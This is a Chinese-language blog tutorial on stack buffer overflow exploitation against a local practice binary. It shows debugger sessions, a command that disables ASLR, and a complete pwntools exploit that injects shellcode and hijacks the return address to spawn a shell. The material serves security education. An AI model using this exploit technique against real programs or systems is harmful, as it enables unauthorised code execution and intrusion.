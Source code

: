 # shellcode


在真正的漏洞利用中，你不太可能拥有 `win()` 函数。shellcode 是一种允许 **运行你自己的
指令** 的方法，使你能够在系统上运行任意命令。

**shellcode** 本质上是 **一系列汇编指令**，一旦我们将它输入到二进制文件中，它就会覆盖返回
地址（返回指针）以劫持代码，并执行我们自己的指令。

<!--more-->

{{<admonition type="warning">}}

我保证你可以相信我，但你永远不应该在不知道 shellcode 作用的情况下运行它。
pwntools 很安全，并且几乎拥有你需要的所有 shellcode 。

{{</admonition>}}

shellcode 成功的原因是 [冯·诺伊曼结构](https://zh.wikipedia.org/wiki/%E5%86%AF%C2%B7%E8%AF%BA%E4%BC%8A%E6%9B%BC%E7%BB%93%E6%9E%84)（当今大多数计算机使用的体系结构）不区分
数据和指令——无论你告诉它在哪里运行或运行什么内容，它都会尝试运行它。因此，
即使我们输入的是攻击指令，计算机也不知道这一点，我们可以利用它来发挥我们的优势。

{{< link href="/pwn_assets/shellcode.zip" content="shellcode.zip" title="Download shellcode.zip" download="shellcode.zip" card=true >}}

## 0x01 禁用 ASLR

ASLR 是一种安全技术，虽然它不是专门为对抗 shellcode 而设计的，但它涉及随机化
内存的某些方面，可以看我的这篇博客：[NOPs](https://www.cubeyond.net/nops/) 。这种随机化可能会使我们的 shellcode
变得不可靠，所以我们现在将 [禁用](https://askubuntu.com/questions/318315/how-can-i-temporarily-disable-aslr-address-space-layout-randomization) 它。

```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

{{<admonition type="info">}}

类似这样的功能性指令以后还会碰到更多，我建议使用 `alias` 为它们创建一个别名。
因为就算不考虑能不能记住这些指令，如果每次都手动输入那么长的指令也是一件很
浪费时间的事情。

{{</admonition>}}

{{<admonition type="warning">}}

再次强调，如果你不知道指令的作用，则永远不要运行该指令。

{{</admonition>}}

## 0x02 确定缓冲区位置

使用 `pwndbg` 调试 `vuln` ，并找出缓冲区在内存中的起始位置；这就是我们
想要将返回地址指向的位置。

```
$ pwndbg vuln
$ disass unsafe
[...]
0x0804918a <+24>:	lea    eax,[ebx-0x1ff8]
[...]
0x0804919c <+42>:	lea    eax,[ebp-0x134]
[...]
0x080491ac <+58>:	mov    ebx,DWORD PTR [ebp-0x4]
[...]
```

可以根据大小判断哪个是 **局部变量**。根据缓冲区大小是 300，可以判断出
`ebp-0x134` 很可能是缓冲区。让我们在 `gets()` 之后设置一个断点并找到确切
的返回地址。

```
$ b *0x080491a8
$ r
Overflow me
<<IM HERE>>  <== This was my input
$ x/20s $esp
[...]
0xffffd664:	"<<IM HERE>>"
[...]
```

它似乎位于 `0xffffd664` ；如果我们多次运行二进制文件，它应该保持在原来的位置
（如果没有，请确保 **禁用 ASLR！**）。

## 0x03 计算溢出 Padding

现在我们需要计算溢出 Padding 。我们将使用 De Bruijn 序列，如上一篇 [文章](https://www.cubeyond.net/de-bruijn-sequences/) 中所述。

```
$ pwndbg vuln
$ cyclic 500
<COPY THIS>
$ r
Overflow me
<<PASTE HERE>>

Program received signal SIGSEGV, Segmentation fault.
0x64616164 in ?? ()
[...]
$ cyclic -l 0x64616164
Finding cyclic pattern of 4 bytes: b'daad' (hex: 0x64616164)
Found at offset 312
```

得到溢出 Padding 是 312 字节。

## 0x04 编写 EXP

为了使 shellcode 正确，我们将把 `context.binary` 设置为我们的二进制文件；
这会获取诸如架构、操作系统和位数之类的东西，并使 pwntools 能够为我们提供
shellcode 。

```python
from pwn import *

context(os='linux', arch='amd64', log_level='debug')

context.binary = ELF('./vuln')

p = process()
```

{{<admonition type="info">}}

我们可以只使用 `process()` ，因为一旦设置了 `context.binary` 就默认假定
使用该进程。

{{</admonition>}}

现在我们可以使用 pwntools 出色的 shellcode 功能轻易的构建 shellcode 。

```python
payload = asm(shellcraft.sh())      # 构建 Shellcode
payload = payload.ljust(312, b'A')  # 溢出 Padding
payload += p32(0xffffd664)          # 返回地址
```

现在让我们将其发送出去并使用 `p.interactive()` ，它使我们能够与 shell 通信。

```python
p.sendline(payload)

p.interactive()
```

{{<admonition type="warning">}}

如果你遇到 `EOFError` ，请打印出 shellcode 并尝试在内存中查找它。
栈地址可能是错误的。

你可以参考这篇 [博客](https://www.cubeyond.net/ret2win/) 中的 hook 调试方法来解决这个问题。

{{</admonition>}}

```
$ python exp.py
[*] 'vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
[+] Starting local process 'vuln': pid 39321
[*] Switching to interactive mode
Overflow me
$ whoami
cub3y0nd
```

## 0x05 最终 EXP

```python {title="exp.py"}
from pwn import *

context(os='linux', arch='amd64', log_level='info')

context.binary = ELF('./vuln')

p = process()

payload = asm(shellcraft.sh())
payload = payload.ljust(312, b'A')
payload += p32(0xffffd664)

p.sendline(payload)

p.interactive()
```

## 0x06 总结

- 当提示输入时，我们注入了 shellcode
- 然后，我们通过覆盖栈上保存的返回地址以指向我们的 shellcode
来劫持代码执行
- 一旦返回地址压入 EIP 中，它就指向我们的 shellcode
- 这导致程序执行我们的指令，为我们（在本例中）提供了用于执行
任意命令的 shell


---

> 作者: CuB3y0nd  
> URL: https://www.cubeyond.net/shellcode/  

